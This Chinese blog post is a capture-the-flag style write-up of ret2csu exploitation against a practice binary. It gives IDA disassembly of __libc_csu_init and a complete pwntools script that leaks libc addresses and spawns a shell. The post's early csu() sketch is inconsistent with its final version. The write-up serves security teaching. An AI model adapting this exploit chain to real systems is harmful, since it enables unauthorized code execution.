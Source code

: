 ```yaml
---
layout: post
title: "libc-csu x64利用"
subtitle: "libc-csu x64利用"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - PWN
  - 二进制安全
---
```



题目链接：
==
https://github.com/zhengmin1989/ROP_STEP_BY_STEP/raw/master/linux_x64/level5
前言
--

- ret2libc 无有效gadgets的利用方式
- 在使用libc的elf程序里，都会加载libc_csu_init，不同版本函数不同，本文用蒸米的《一步一步学ROP》的第五关来看看。
- 先来看看libc_csu_init是啥，直接IDA：
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
- 可以看出来在最后一段是可以通过栈控制rbx,rbp,r12,r13,r14,r15
- 而linux下x64函数调用传参的顺序是rdi，rsi，rdx，rcx，r8，r9，后面都通过栈传递参数。
- 对比一下，好像并不能控制函数调用
但是4005F0处：
```
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
```
rdx = r15,rsi=r14,edi=r13d
rdi的低位=edi，所以同样能起到控制rdi的作用。
同时控制r12还能搞函数调用

```
call    qword ptr [r12+rbx*8]
```
只要控制rbx为0，rbp为1,r12为要call的函数就可以。
例题：
==
```C
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

def csu
--
直接构造payload就行，这里方便理解把栈图画出来
```python
def csu(rbx,rbp,r12,r13,r14,r15,ret):
    payload = padding + p64(csu_end)
    payload += p64(0)
    payload += p64(rbx)+p64(rbp)+p64(r13)+p64(r14)
    payload += p64(csu_start)
    payload += "a"*(6*8+8)
    payload += p64(ret)
    s.sendline(payload)
```
在调用过libc_csu_init之后我们还需要把main函数覆盖到ret上，前面padding7*8个字节(6个寄存器+一个rbp)
所以得出：
	loc_400606 用来控制寄存器
	loc_4005F0 用来做函数调用
利用后的程序流程应该是：

vulnerable_function -> loc_400606 -> loc_4005F0 -> main -> vulnerable_function -> loc_400606 -> loc_4005F0 -> systemAddr

exploit
---
到这里就是基本操作了（看了别人的exp，比我写的好看多了QAQ
```python
from pwn import *

from LibcSearcher import LibcSearcher

import time

elf = ELF("level5")

proc = process("./level5")

write_got = elf.got["write"]

main = 0x0400564

padding = "a" * 0x88

csu_start = 0x4005F0

csu_end = 0x400606

def csu(rbx, rbp, r12, r13, r14, r15, ret):
	payload = ""
	payload += padding+p64(csu_end)
	payload += p64(0)
	payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
	payload += p64(csu_start)
	payload += "\x00" * (7*8)
	payload += p64(ret)
	proc.sendline(payload)

csu(0,1,write_got,1,write_got,8,main)

print proc.recvline()

write_addr = u64(proc.recvline()[0:8])

print hex(write_addr)

libc = LibcSearcher("write",write_addr)

libcbase = write_addr - libc.dump('write')

system = libcbase + libc.dump('system')

bin_sh = libcbase + libc.dump('str_bin_sh')

read_got = elf.got['read']

bss = 0x601028

csu(0,1,read_got,0,bss,16,main)

time.sleep(5)

proc.send(p64(system))

proc.send("/bin/sh"+"\x00")

csu(0,1,bss,bss+8,0,0,main)

proc.interactive()
```


